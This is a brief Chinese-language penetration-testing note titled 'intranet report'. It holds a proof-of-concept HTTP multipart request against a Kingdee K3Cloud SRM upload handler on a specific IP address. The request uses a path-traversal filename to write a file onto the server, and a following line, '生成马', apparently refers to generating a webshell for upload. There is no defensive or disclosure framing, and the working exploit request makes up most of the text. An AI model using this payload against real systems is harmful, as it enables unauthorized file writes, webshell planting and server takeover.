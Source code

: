 ```yaml
---
icon: pen-to-square
date: 2025-06-29
tags: 
title: 内网报告
category:
  - 项目
---
```

POC
```http
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 59.45.53.150:9888
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=zsqxokga
Accept-Encoding: gzip
Content-Length: 276

--zsqxokga
Content-Disposition: form-data; name="dbId_v"

.
--zsqxokga
Content-Disposition: form-data; name="FID"

2022
--zsqxokga
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/ccc.txt"
Content-Type: text/plain

ccc

--zsqxokga--
```

生成马
![](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629093503.png)
